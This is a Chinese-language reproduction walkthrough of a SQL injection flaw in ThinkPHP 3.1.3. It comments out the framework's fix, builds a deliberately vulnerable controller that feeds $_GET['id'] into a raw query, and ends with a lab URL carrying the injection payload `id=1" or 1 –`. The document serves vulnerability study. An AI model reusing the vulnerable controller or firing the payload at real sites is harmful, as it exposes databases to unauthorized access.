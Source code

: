 # Thinkphp 3.1.3 sql注入漏洞

## 一、漏洞简介

## 二、漏洞影响

Thinkphp 3.1.3

## 三、复现过程

首先在网上下载对应的压缩包。

漏洞位于`ThinkPHP/Lib/Core/Model.class.php` 文件的parseSql函数

将这一条修复语句注释后开始一步步复现

![1.png](./resource/Thinkphp3.1.3sql注入漏洞/media/rId24.png)

在ThinkPHP目录下创建app文件夹后创建index.php

![2.png](./resource/Thinkphp3.1.3sql注入漏洞/media/rId25.png)

访问相应页面，显示这个则说明成功。

![3.png](./resource/Thinkphp3.1.3sql注入漏洞/media/rId26.png)

成功后app文件夹下会生成工程文件

![4.png](./resource/Thinkphp3.1.3sql注入漏洞/media/rId27.png)

然后开始配置数据库(在app/conf/config.php下配置)

```php
<?php
return array(
    //'配置项'=>'配置值'
// 添加数据库配置信息
'DB_TYPE'   => 'mysql', // 数据库类型
'DB_HOST'   => 'localhost', // 服务器地址
'DB_NAME'   => 'security', // 数据库名
'DB_USER'   => 'root', // 用户名
'DB_PWD'    => 'root', // 密码
'DB_PORT'   => 3306, // 端口
'DB_PREFIX' => 'think_', // 数据库表前缀
);
?>
```

下一步开始为模块定义一个控制器类:`IndexAction.class.php`。命名规范（模块名+Action.class.php）

```php
<?php
// 本类由系统自动生成，仅供测试用途
class IndexAction extends Action {
    public function index(){
      //$this->name = 'thinkphp'; // 进行模板变量赋值
      //$this->display();
        
    $Data = M('Data'); // 实例化Data数据模型
    $this->data = $Data->select();
    $this->display();
    
    $model=M('think_data');
    $m=$model->query('select * from think_data where id="%s"',array($_GET['id']));
    dump($m);exit;
    }
    
}
```

创建视图：在`./Tpl`下创建`Index/index.html`

```html
<html>
 <head>
   <title></title>
 </head>
 <body>
    //<p>hello, {$name}!</p>
    <volist name="data" id="vo">
    {$vo.id}--{$vo.data}<br/>
    </volist>
 </body>
</html>
```

> 在浏览器访问

`https://www.0-sec.org:9090/ThinkPHP_3.1.3_full/ThinkPHP/app/`

![5.png](./resource/Thinkphp3.1.3sql注入漏洞/media/rId28.png)

`https://www.0-sec.org:9090/ThinkPHP_3.1.3_full/ThinkPHP/app/?id=1" or 1 –`

![6.png](./resource/Thinkphp3.1.3sql注入漏洞/media/rId29.png)

复现结束

## 参考连接

> https://www.freesion.com/article/3289785672/
